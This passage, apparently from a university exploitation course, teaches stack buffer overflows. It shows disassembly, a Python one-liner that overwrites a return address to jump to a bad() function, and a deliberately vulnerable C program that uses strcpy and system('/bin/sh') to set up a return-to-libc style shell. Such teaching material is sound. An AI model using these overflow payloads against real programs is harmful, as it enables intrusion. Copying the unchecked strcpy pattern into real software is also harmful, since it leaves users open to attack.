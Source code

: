 ``` example
 80484bf:   c9                      leave  
 80484c0:   c3                      ret    
(...)
```

We see that the buffer is allocated at `ebp-0x6c` so we can quickly do
the exploit like so where we jump to bad():

``` example
user@si485H-base:demo$ ./call_bad `python -c "print 'A'*(0x6c+4) + '\x7d\x84\x04\x08'"`
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}?
You've been PWNED!
Segmentation fault (core dumped)
```

## Functions with Arguments

We can make the exploit a little more intriguing if we were to make it so
that bad() will call system() with its argument:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char pwn[]="/bin/sh";

void bad(char * s){
  printf("You've been PWNED!\n");

  system(s);

}

void vuln(char * s){
  char buf[100];

  strcpy(buf,s);

  printf("Buf: %s\n", buf);
}

void main(int argc, char * argv[]){

    vuln(argv[1]);
}
```

In this scenario, much like a return-2-libc attack, if we have the stack
properly aligned with the right argument, namely `pwn`, then we'll get a
shell to launch. For that to happen, we'll need the exploit on the stack
to look like this:
